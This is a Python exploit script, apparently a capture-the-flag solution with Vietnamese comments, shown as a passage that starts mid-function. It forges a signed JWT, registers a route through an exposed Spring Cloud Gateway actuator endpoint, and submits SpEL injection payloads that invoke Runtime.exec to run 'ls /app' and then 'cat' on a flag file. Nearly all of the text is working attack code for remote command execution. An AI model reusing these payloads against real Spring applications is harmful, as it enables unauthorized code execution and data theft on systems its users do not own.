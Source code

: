 ```python 
    }

    b64 = lambda b: base64.urlsafe_b64encode(b).rstrip(b'=')
    signing = b'.'.join([
        b64(json.dumps(header, separators=(',', ':')).encode()),
        b64(json.dumps(payload, separators=(',', ':')).encode())
    ])
    sig = base64.urlsafe_b64encode(hmac.new(key, signing, hashlib.sha256).digest()).rstrip(b'=')
    return (signing + b'.' + sig).decode()

token = generate_jwt()
auth_header = {'Authorization': f'Bearer {token}'}

# === 2. Đăng ký route gateway ===
requests.post(
    f'{base_url}/actuator/gateway/routes/news',
    headers=headers,
    json={
        "id": "news",
        "predicates": [{"name": "Path", "args": {"_genkey_0": "/news/**"}}],
        "uri": "http://127.0.0.1:8082"
    }
)
requests.post(f'{base_url}/actuator/gateway/refresh')

# === 3. Gửi payload SpEL để lấy tên flag qua ls ===
payload_ls = {
    "id": "1",
    "title": "t",
    "description": "d",
    "body": "#{role.getDeclaringClass().getClassLoader().loadClass(\"java.util.Scanner\").getConstructors().?[getParameterCount()==1 and getParameterTypes()[0].getName().equals(\"java.io.InputStream\")][0].newInstance(role.getDeclaringClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"ls /app\").getInputStream()).useDelimiter(\"\\\\A\").next()}",
    "author": "a",
    "draft": False
}
requests.put(f'{base_url}/news/1', headers={**headers, **auth_header}, json=payload_ls)

resp_ls = requests.get(f'{base_url}/news/1/view', headers=auth_header)
flag_file = re.search(r'flag-[\w\d]+', resp_ls.text)
if not flag_file:
    print("Không tìm thấy flag file")
    exit(1)

flag_name = flag_file.group(0)
print(f"Found flag: {flag_name}")

payload_cat = {
    "id": "1",
    "title": "t",
    "description": "d",
    "body": f"#{{role.getDeclaringClass().getClassLoader().loadClass(\"java.util.Scanner\").getConstructors().?[getParameterCount()==1 and getParameterTypes()[0].getName().equals(\"java.io.InputStream\")][0].newInstance(role.getDeclaringClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"cat /app/{flag_name}\").getInputStream()).useDelimiter(\"\\\\A\").next()}}",
    "author": "a",
    "draft": False
}
requests.put(f'{base_url}/news/1', headers={**headers, **auth_header}, json=payload_cat)

```